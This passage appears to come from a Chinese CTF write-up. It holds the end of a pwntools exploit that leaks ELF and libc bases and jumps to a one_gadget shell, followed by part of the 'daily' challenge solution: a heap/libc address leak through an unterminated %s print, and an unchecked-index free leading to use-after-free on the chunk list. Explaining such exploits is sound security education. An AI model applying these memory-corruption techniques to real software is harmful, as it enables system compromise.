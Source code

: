 ```
	return addr

def exp():
	pass_()
	#gdb.attach(p)
	
	addr = leak(0x158)
	elf_base = addr - 0xb11
	print '[*] elf_base :',hex(elf_base)
	addr = leak(0x160+0x118)
	libc_base = addr - 0x20830
	one_shot = libc_base + 0xf02a4
	print '[*] one_shot :',hex(one_shot)
	print '[*] libc_base :',hex(libc_base)
	pause()
	change(0x158,one_shot)
	p.sendline("no")
	p.sendline("cat flag")
	p.interactive()
exp()
```

### daily

由于是%s打印内容，会一直打印遇到\x00才会停止，而且add的时候通过read读入没有写入字符串后缀，所以可以利用这一点可以泄露libc地址 和heap地址。泄露利用如下：

```
	create(0x60,"a"*0x20)#0
	create(0x60,"a"*0x20)#1
	create(0x60,"b"*0x20)#2
	delete(0)
	delete(1)
	create(0x60,"a")#0
	show()
	p.recvuntil("0 : a")
	data = "\x00"+p.recvuntil("2",drop=True)
	heap = u64(data.ljust(8,"\x00"))
	print "[*]heap : ", hex(heap)
	
	create(0x100,"a"*0x20)#1
	create(0x100,"a"*0x20)#3
	delete(1)
	create(0x20,"a"*0x20)#1
	create(0xd0,"a"*8)#4
	show()
	p.recvuntil("4 : aaaaaaaa")
	data = p.recvn(6) + "\x00\x00"
	libc_base  = u64(data) - 0x3c4b78
```

然后利用free的时候没有检查index(v1)，漏洞点如下程序部分代码，造成UAF分配到bss上的chunk_list ，然后改free就可以了。
